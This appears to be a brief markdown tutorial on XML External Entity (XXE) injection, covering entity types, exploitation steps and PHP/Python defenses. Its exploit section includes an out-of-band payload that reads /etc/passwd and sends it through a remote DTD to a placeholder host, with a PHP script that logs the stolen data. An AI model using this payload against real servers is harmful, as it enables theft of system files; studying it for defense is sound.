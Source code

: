 # XXE
*  [Entity](#entity)   
*  [Exploit](#exploit)   
*  [Defense](#defense)  
*  [Reference](#reference)   
   
XML is a markdown language just like html, but it focuses on transmitting data, and Case-sensitive。  
```xml
<?xml version=“1.0” encoding=“utf-8”>    // xml declaration
<!DOCTYPE a[                    // DTD doc type def
    <!ENTITY .....>
]>
<a>     // doc element
....
</a>
```
In the `XXE-SSRF` part are the practice of clear and blind-based 

## Entity
In DTD, we all need to declare before use entity  
Entity is just like a variable  
1. Internal entity： `<!ENTITY name "value">`  
```xml
<!DOCTYPE pwnch[
  <!ENTITY var "hi">
]>
<root>&var;</root>
```  

2. External entity： `<!ENTITY name SYSTEM "URL">`  
```xml
<!ENTITY var SYSTEM "url://.......txt">
<root>&var;</root>
```
version after 2.9.0 default not to parse the external entity  
Therefore, we can use the code `print "libxml version: ".LIBXML_DOTTED_VERSION."\n";` to make sure  

3. Parameter entity： `<!ENTITY %name "value>"`  
`%` means reference of parameter entity in dtd.  
`&` means reference in xml doc.  

## Exploit
1. Vul to XXE?  
Input a xml to see whether it is parsed  
2. Support of External entity?  
3. Return -> Simple  
**php and XXE**  
```php
$xml = @new SimpleXMLElement($data);
echo $xml->node;
```
`SimpleXMLElement` would make content format like a list： `[node] => 'content'`  
The code at the last line `$xml->node` means take out the **node**  
Therefore, we need an exploit like `<node>&var;</node>`   

4. No Return -> OOB(Out-Of-Band) XXE  
Make server deliver the data to us  
```xml
// XML for server side
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://domain/xxe.dtd">
%remote;
%all;
%send;
]>
```
xxe.dtd  
```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://domain/test.php?a=%file;'>">
```
test.php  
```php
file_put_contents("test.txt",$_GET['a']);
```

## Defense
```php
// php 
libxml_disable_entity_loader(true);
// python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```  
[更詳細的內容可以參考這篇的漏洞修復與防禦](https://thief.one/2017/06/20/1/)

## Reference
* [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
